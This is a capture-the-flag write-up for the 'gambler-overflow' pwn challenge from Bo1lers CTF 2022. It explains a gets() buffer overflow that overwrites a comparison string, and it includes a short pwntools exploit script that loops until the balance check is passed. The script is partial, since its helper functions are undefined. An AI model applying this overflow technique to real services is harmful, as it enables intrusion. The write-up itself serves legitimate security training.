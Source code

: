 ```yaml
---
title: "[Pwn] gambler-overflow [Bo1lers CTF 2022]"
date: 2022-04-28 23:25:00
---
```


# 0x0 Introduction

Feeling luuuuuuuucky?

You must create a flag.txt in the same folder as the binary for it to run.
nc ctf.b01lers.com 9203

Author: robotearthpizza
Difficulty: Easy

files: [gambler_overflow](gambler_overflow)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 0x2 Vulnerability

function `sym.casino` ask for a 4 byte string using `gets`, then it compare with a random string generate by `sym.imp.rand()`. 

If we enter the same string as the random one, we get certain amount of money. If we have more than 1000 in balance, the program will print out the flag

```
│           ; var signed int64_t var_1ch @ rbp-0x1c
│           ; var char *s2 @ rbp-0x18
│           ; var char *s1 @ rbp-0x10
│           ; var int64_t canary @ rbp-0x8
{
    do {
        // generate random string
        sym.imp.gets(&s2);
        iVar1 = sym.imp.strcmp(&s1);
        // add or subtract balance depend on the result
    } while (_obj.balance < 1000);
    sym.give_flag();
    return;
}
```

it uses `gets`, so we can overwrite s1 by s2. so that we can make s2 and s1 same.


# 0x3 Exploit

```
from pwn import *


io = start()
try:
    while True:
        lp(io.sendlineafter(b"letters: ",b"AAAAAAA\x00AAAAAAA\x00"))
except:
    pass
print(io.recv())


io.interactive()
```

# 0x4 Flag

forgot